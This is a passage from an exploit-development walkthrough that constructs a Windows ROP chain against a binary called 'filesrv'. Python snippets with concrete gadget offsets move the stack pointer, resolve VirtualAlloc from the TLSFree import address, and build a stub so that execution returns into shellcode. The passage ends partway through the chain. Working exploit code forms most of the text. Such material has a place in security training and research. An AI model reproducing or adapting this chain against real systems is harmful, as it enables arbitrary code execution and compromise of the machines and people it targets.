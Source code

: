 If we noticed, this gadget pushes the _ESP_ value and then "pop it" into _ECX_, but before it adds to the address _EAX_ is pointing to the value of it. So if _EAX_ is not pointing to a writeable area, this will fail. To solve this, we can make the value in _EAX_ point into a writeable area like the .rdata. With that, we can add the following to our chain.

```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(filesrv+0xA6030) # address in .data
rop += p32(filesrv+0x000683da) #push esp; add dword ptr [eax], eax; pop ecx; ret;
```
With the above, the stack pointer is now stored in _ECX_. We should probably build our stack in another area to not overwrite the gadgets being sent, so the stub can be constructed above our current payload, I choose 0x50 above, but this value is arbitrary. Let's accomplish this by using the following gadgets.

```python
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffffb0) # - 0x50
rop += p32(filesrv+0x0001bb91) # add ecx, edx; clc; pop ebp; ret;)
rop += p32(0x41424344) #junk for ebp
```

We used an addition, but we "pop" a negative value. This is done to avoid NULL bytes. _ECX_ now has the value of the stack-0x50, and we'll use it to point to our stub

Next, We need to move the value of __TLSFree__ to a register. Since we have the IAT address stored in *tlsfree_iat*, we can dereference it and then subtract the Offset from __VirtualAlloc__


```python
rop += p32(filesrv+0x0004cbfb) #pop eax; ret;
rop += p32(tlsfree_iat)
rop += p32(filesrv+0x0002bb94) # mov eax, dword ptr [eax]; ret;
rop += p32(filesrv+0x000636cd) # pop edx; ret;
rop += p32(0xffffcf70) # 0x3090 
rop += p32(filesrv+0x0003697f) # add eax, edx; ret;
```

We subtracted the value 0x3090, and now _EAX_ has the value of VirtualAlloc in Kernel32. We can then store it in our stub using the following gadget.

```python
rop += p32(filesrv+0x0005f607) #: mov dword ptr [ecx], eax; mov al, 1; ret;
```

Great, now we should increase the "stub-pointer" in _ECX_ with the following:

```python
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
rop += p32(filesrv+0x0000582b) # inc ecx; ret 0;
```

So far, so good. Our next task is to set up the return address where our payload should return after the execution of __VirtualAlloc__, ideally, where our Shellcode resides. One of the reasons to choose to put our stub above the current payload we are sending is so we can calculate where to land, for that after looking at the stack in the debugger at Offset 0x3f0 from our "stub-pointer" looks good, we can use that value, add 0x3f0 and then place it in our stub, ropping like this:
